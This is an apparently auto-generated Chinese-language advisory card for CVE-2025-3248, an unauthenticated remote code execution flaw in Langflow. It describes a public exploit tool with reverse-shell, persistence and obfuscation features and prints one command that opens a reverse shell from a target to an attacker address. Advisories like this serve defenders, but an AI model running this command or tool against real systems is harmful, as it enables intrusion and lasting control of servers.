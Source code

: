 ## CVE-2025-3248-Langflow-RCE

**漏洞编号:** CVE-2025-3248

**漏洞类型:** 远程代码执行

**影响应用:** Langflow

**危害等级:** 严重，未经身份验证的远程代码执行

**影响版本:** < 1.3.0

**利用条件:** 目标服务器运行Langflow且版本低于1.3.0，网络可达

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2025-3248 是 Langflow 平台中一个未经身份验证的远程代码执行漏洞。该漏洞位于 `/api/v1/validate/code` 端点，允许未经身份验证的攻击者通过发送特制的 HTTP 请求执行任意代码。

**有效性：**
根据漏洞库信息、搜索引擎结果和提供的漏洞利用代码，该漏洞是有效的。搜索引擎结果显示该漏洞已被积极利用，并且存在利用此漏洞传播 Flodrix 僵尸网络的活动。漏洞利用代码（`exploit.py`）提供了一个完整的攻击框架，支持多种利用模式，包括交互式 shell、单命令执行和反向 shell 连接，这表明该漏洞易于利用。

**投毒风险：**
尽管漏洞利用代码提供了多种功能，但其中一些功能存在潜在的风险。例如，`persist` 命令通过 cron 作业添加持久性后门。虽然这本身不是投毒，但攻击者可以利用此功能在目标系统上建立长期存在的后门。代码中自动payload混淆可以绕过waf，文件上传下载也存在一定的风险，文件上传可以上传恶意文件，文件下载可以窃取敏感文件。此外，该代码使用 `exec` 函数，具有较高的安全风险。

综合来看，投毒风险评估为 10%。 主要是作者在某些功能的设计上存在一定的安全风险。用户需要谨慎使用该工具，以避免潜在的风险。

**利用方式：**
1.  攻击者向 `/api/v1/validate/code` 端点发送包含恶意 Python 代码的 HTTP 请求。
2.  Langflow 在没有充分验证的情况下执行该代码。
3.  攻击者可以在目标系统上执行任意命令，获得系统控制权。

利用代码提供了以下功能：
*   自动漏洞检测。
*   多种利用模式：交互式 shell、单命令执行、反向 shell 连接。
*   文件上传/下载功能。
*   Payload 混淆。
*   HTTPS 绕过。

**利用示例：**
```bash
python exploit.py http://target.com --reverse 192.168.1.100 4444
```
这条命令会在目标系统上启动一个反向 shell，连接到攻击者的 `192.168.1.100:4444`。

**项目地址:** [0-d3y/langflow-rce-exploit](https://github.com/0-d3y/langflow-rce-exploit)

**漏洞详情:** [CVE-2025-3248](https://nvd.nist.gov/vuln/detail/CVE-2025-3248)